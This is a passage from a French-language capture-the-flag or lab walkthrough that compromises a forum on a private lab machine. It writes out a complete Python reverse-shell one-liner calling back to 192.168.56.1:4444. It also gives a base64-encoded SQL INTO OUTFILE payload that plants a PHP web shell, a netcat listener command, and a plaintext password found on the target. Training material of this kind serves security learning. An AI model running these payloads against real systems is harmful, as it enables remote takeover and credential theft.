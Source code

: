 Et si on va a cette adresse: https://192.168.56.104/forum/templates_c/testing.php
On a bien notre phpinfo.

Maintenant, notre vrai payload sera:

```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

On va l'encoder en base 64 (Pour pas etre embeter par les cotes), ce qui nous donne notre payload final:

```
SELECT "<?php system(base64_decode('cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC41Ni4xIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsnCg==')); ?>" INTO OUTFILE "/var/www/forum/templates_c/payload.php";
```

On attend notre connection (Sur un terminal)
```
$ nc -l -p 4444 -vv
```

En allant sur l'url (pour charger le payload) -> https://192.168.56.104/forum/templates_c/payload.php

On a bien notre prompt dans notre terminal.

![sql whoami](./screen/reverseshell.png)

On navigant dans le home, on peux voir un dossier LOOKATME avec a l'interieur un password:

lmezard:G!@M6f4Eatau{sF"

En essayant de se connecter a l'user lmezard on a une erreur:

```
$ su - lmezard
su: must be run from a terminal
```
